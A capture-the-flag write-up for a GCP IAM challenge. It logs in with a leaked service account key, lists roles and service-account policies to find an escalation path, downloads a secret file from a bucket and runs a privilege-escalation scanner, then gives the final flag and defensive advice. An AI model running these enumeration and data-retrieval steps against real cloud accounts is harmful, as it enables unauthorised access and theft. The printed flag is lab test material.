

# IAM Access Compass — Solution Writeup

# Challenge Information

| Category | Cloud Security |
|---|---|
| Platform | Google Cloud Platform (GCP) |
| Difficulty | Medium |
| Focus Area | IAM Enumeration & Privilege Escalation |

---

# Objective

Recover the final flag by identifying:

- The custom role assigned to `testing-service-account`
- The service account having admin permissions over `devops-service-account`

Final flag format:

```text
CWL{BASE64(Flag1+Flag2)}
```

---

# Attack Flow Overview



---

# Step 1 — Authenticate to GCP

The challenge provides a service account JSON key file.

We first authenticate to Google Cloud using the provided credentials.

---

## Command Used

```bash
gcloud auth activate-service-account \
--key-file testing-srvacc-key.json
```

---

## Why This Command?

This command authenticates the attacker-controlled environment to GCP using the compromised service account key.

Without authentication:

- No API access
- No IAM enumeration
- No cloud resource visibility

This becomes the initial foothold inside the cloud environment.

---

# Step 2 — Verify Active Credentials

After authentication, we verify which identities are available.

---

## Command Used

```bash
gcloud auth list
```

---

## Why This Command?

This command displays all authenticated accounts configured in the local gcloud environment.

It helps us:

- Verify successful authentication
- Identify additional cached identities
- Detect possible impersonation paths

---

## Output

```text
Credentialed Accounts
ACTIVE  ACCOUNT
        svc-mgmt-sa@woven-acolyte-428406-v9.iam.gserviceaccount.com
*       testing-service-account@woven-acolyte-428406-v9.iam.gserviceaccount.com
```

---

# Step 3 — Enumerate Available Projects

Before enumerating IAM, we identify accessible projects.

---

## Command Used

```bash
gcloud projects list
```

---

## Why This Command?

This command lists all projects accessible to the authenticated identity.

This helps:

- Identify target project IDs
- Confirm scope of access
- Discover lateral movement opportunities

---

## Expected Output

```text
PROJECT_ID                    NAME
woven-acolyte-428406-v9      woven-acolyte
```

---

# Step 4 — Enumerate Service Accounts

Next, we enumerate service accounts inside the target project.

---

## Command Used

```bash
gcloud iam service-accounts list \
--project=woven-acolyte-428406-v9
```

---

## Why This Command?

Service accounts are high-value cloud identities.

This command helps us identify:

- Privileged accounts
- Automation identities
- Potential escalation targets
- Naming conventions

---

## Expected Output

```text
EMAIL
testing-service-account@woven-acolyte-428406-v9.iam.gserviceaccount.com
devops-service-account@woven-acolyte-428406-v9.iam.gserviceaccount.com
prod-service-account@woven-acolyte-428406-v9.iam.gserviceaccount.com
```

---

# Step 5 — Enumerate IAM Roles Assigned to testing-service-account

We now identify which roles are assigned to the compromised account.

---

## Command Used

```bash
gcloud projects get-iam-policy woven-acolyte-428406-v9 \
--flatten="bindings[].members" \
--filter="bindings.members:serviceAccount:testing-service-account@woven-acolyte-428406-v9.iam.gserviceaccount.com" \
--format="table(bindings.role)"
```

---

## Why This Command?

This is the most critical enumeration step.

The command:

- Retrieves IAM policy bindings
- Filters only entries related to the target service account
- Displays assigned roles cleanly

This reveals:

- Built-in roles
- Custom roles
- Excessive permissions
- Possible escalation paths

---

## Output

```text
ROLE
projects/woven-acolyte-428406-v9/roles/customViewerRole1
roles/iam.roleViewer
roles/iam.securityReviewer
roles/viewer
```

---

# Flag1 Identified

```text
customViewerRole1
```

---

# Step 6 — Enumerate Custom Roles

Now we inspect the custom role definition.

---

## Command Used

```bash
gcloud iam roles describe customViewerRole1 \
--project=woven-acolyte-428406-v9
```

---

## Why This Command?

Custom roles may contain dangerous permissions not visible at first glance.

This command reveals:

- Exact permissions
- Resource access
- Hidden escalation vectors

Examples include:

- `iam.serviceAccounts.actAs`
- `storage.objects.get`
- `cloudfunctions.functions.invoke`

---

## Example Output

```yaml
includedPermissions:
- storage.objects.get
- iam.roles.get
- iam.roles.list
```

---

# IAM Trust Relationship

```mermaid
%%{init: {
  "theme": "base",
  "themeVariables": {
    "primaryColor": "#ffffff",
    "primaryTextColor": "#ff0000",
    "primaryBorderColor": "#ffffff",
    "lineColor": "#ffffff",
    "background": "#ffffff"
  }
}}%%

flowchart LR

A[testing-service-account]
 --> B[customViewerRole1]

A --> C[Project IAM Policies]

C --> D[devops-service-account]

E[prod-service-account]
 -->|Admin Control| D
```

---

# Step 7 — Enumerate DevOps Service Account IAM Policy

We now inspect which identities have administrative permissions over the DevOps service account.

---

## Command Used

```bash
gcloud iam service-accounts get-iam-policy \
devops-service-account@woven-acolyte-428406-v9.iam.gserviceaccount.com
```

---

## Why This Command?

Service account IAM policies define:

- Who can impersonate accounts
- Who can create keys
- Who has administrative control

This is a high-value privilege escalation discovery step.

---

## Output

```yaml
bindings:
- members:
  - serviceAccount:prod-service-account@woven-acolyte-428406-v9.iam.gserviceaccount.com
  role: roles/iam.serviceAccountAdmin

- members:
  - serviceAccount:prod-service-account@woven-acolyte-428406-v9.iam.gserviceaccount.com
  role: roles/iam.serviceAccountKeyAdmin
```

---

# Flag2 Identified

```text
prod-service-account@woven-acolyte-428406-v9.iam.gserviceaccount.com
```

---

# Step 8 — Construct the Final String

Required format:

```text
Flag1+Flag2
```

Constructed string:

```text
customViewerRole1+prod-service-account@woven-acolyte-428406-v9.iam.gserviceaccount.com
```

---

# Step 9 — Base64 Encode the Flag

---

## Command Used

```bash
echo -n 'customViewerRole1+prod-service-account@woven-acolyte-428406-v9.iam.gserviceaccount.com' | base64
```

---

## Why This Command?

The challenge requires:

```text
BASE64(Flag1+Flag2)
```

The `-n` option prevents a newline character from being added, ensuring proper encoding.

---

## Output

```text
Y3VzdG9tVmlld2VyUm9sZTErcHJvZC1zZXJ2aWNlLWFjY291bnRAd292ZW4tYWNvbHl0ZS00Mjg0MDYtdjkuaWFtLmdzZXJ2aWNlYWNjb3VudC5jb20=
```

---

# Final Flag

```text
CWL{Y3VzdG9tVmlld2VyUm9sZTErcHJvZC1zZXJ2aWNlLWFjY291bnRAd292ZW4tYWNvbHl0ZS00Mjg0MDYtdjkuaWFtLmdzZXJ2aWNlYWNjb3VudC5jb20=}
```

---

# Optional Advanced Enumeration

The following commands were not required to solve the challenge directly but are valuable during real-world cloud assessments.

---

# Enumerate All IAM Policies

## Command

```bash
gcloud projects get-iam-policy woven-acolyte-428406-v9
```

---

## Purpose

Provides a complete IAM map of the project.

Useful for:

- Role auditing
- Identifying overprivileged users
- Discovering escalation paths

---

# Enumerate All Custom Roles

## Command

```bash
gcloud iam roles list \
--project=woven-acolyte-428406-v9
```

---

## Purpose

Lists all custom IAM roles defined in the project.

Useful for:

- Detecting insecure custom roles
- Auditing permission sprawl
- Reviewing organization-specific access models

---

# Enumerate Storage Buckets

## Command

```bash
gcloud storage buckets list
```

---

## Purpose

Identifies accessible storage resources.

Cloud storage often contains:

- Secrets
- Credentials
- Backups
- Internal documents

---

# Enumerate Bucket IAM Policies

## Command

```bash
gcloud storage buckets get-iam-policy \
gs://secret-bucket-woven-acolyte-428406-v9
```

---

## Purpose

Determines who can:

- Read objects
- Upload files
- Modify permissions

---

# Download Files from Bucket

## Commands

```bash
gsutil ls -r gs://secret-bucket-woven-acolyte-428406-v9
```

```bash
gsutil cp gs://secret-bucket-woven-acolyte-428406-v9/secret.txt .
```

---

## Purpose

Used to enumerate and retrieve sensitive objects from accessible buckets.

---

# Automated Privilege Escalation Enumeration

---

## Clone the Tool

```bash
git clone https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation.git
```

```bash
cd GCP-IAM-Privilege-Escalation/PrivEscScanner
```

---

## Enumerate Permissions

```bash
python3 enumerate_member_permissions.py \
--project-id woven-acolyte-428406-v9
```

---

## Check Privilege Escalation Paths

```bash
python3 check_for_privesc.py
```

---

## Purpose

This tool automates:

- IAM privilege escalation discovery
- Dangerous permission detection
- Service account abuse mapping

Generated files:

| File | Purpose |
|---|---|
| all_org_folder_proj_sa_permissions.json | Complete permission mapping |
| privesc_methods.txt | Detected escalation paths |
| setIamPolicy_methods.txt | Dangerous policy modification methods |

---

# MITRE ATT&CK Mapping

| Technique | Description |
|---|---|
| T1078 | Valid Accounts |
| T1098 | Account Manipulation |
| T1528 | Steal Application Access Token |
| T1552 | Unsecured Credentials |
| T1069 | Permission Group Discovery |

---

# Defensive Recommendations

## Enforce Least Privilege

Only assign required permissions.

---

## Restrict Service Account Administration

Audit:

- `roles/iam.serviceAccountAdmin`
- `roles/iam.serviceAccountKeyAdmin`
- `roles/owner`

---

## Monitor IAM Changes

Enable:

- Cloud Audit Logs
- Security Command Center
- IAM Recommender

---

## Rotate Service Account Keys

Regularly rotate credentials and disable unused keys.

---

# Conclusion

This challenge demonstrates how cloud compromises often begin with visibility rather than exploitation.

A single exposed service account can reveal:

- IAM trust chains
- Privileged identities
- Administrative relationships
- Escalation paths

In cloud environments, permissions are the real attack surface.